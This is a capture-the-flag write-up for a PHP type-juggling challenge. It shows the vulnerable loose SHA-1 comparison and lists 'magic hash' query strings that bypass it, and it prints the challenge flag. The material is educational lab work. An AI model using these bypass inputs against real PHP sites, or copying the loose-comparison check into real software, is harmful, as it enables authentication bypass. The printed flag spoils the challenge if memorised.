

## Warm Up
The main idea finding the flag is exploiting PHP type juggling.

#### Step-1:
After I visited the URL: http://chall.csivit.com:30272/, I was greeted with below code:

```php
<?php  
  
if (isset($_GET['hash'])) {  
if ($_GET['hash'] === "10932435112") {  
die('Not so easy mate.');  
}  
  
$hash = sha1($_GET['hash']);  
$target = sha1(10932435112);  
if($hash == $target) {  
include('flag.php');  
print $flag;  
} else {  
print "csictf{loser}";  
}  
} else {  
show_source(__FILE__);  
}  
  
?>
```


#### Step-2:

Sha1 of `10932435112` is `0e07766915004133176347055865026311692244`

The comparison `if($hash == $target)` is vulnerable because it is not a strict comparison with `===`.

#### Step-3:
So a bit more deep search of `sha1(10932435112)` online gave me links to [Magic Hashes](https://git.linuxtrack.net/Azgarech/PayloadsAllTheThings/blob/master/PHP%20juggling%20type/README.md)

#### Step-4:
So, I tried the URL as any of the below. All have to work because all de-reference to same hash. 
 - http://chall.csivit.com:30272/?hash=aaK1STfY 
 - http://chall.csivit.com:30272/?hash=aaroZmOk 
 - http://chall.csivit.com:30272/?hash=aaO8zKZF
 - http://chall.csivit.com:30272/?hash=aa3OFF9m

Any other hashes like MD5, will give false flag of `csictf{loser}`.



Voila! I got the flag.

#### Step-5:
Finally the flag becomes:
`csictf{typ3_juggl1ng_1n_php}`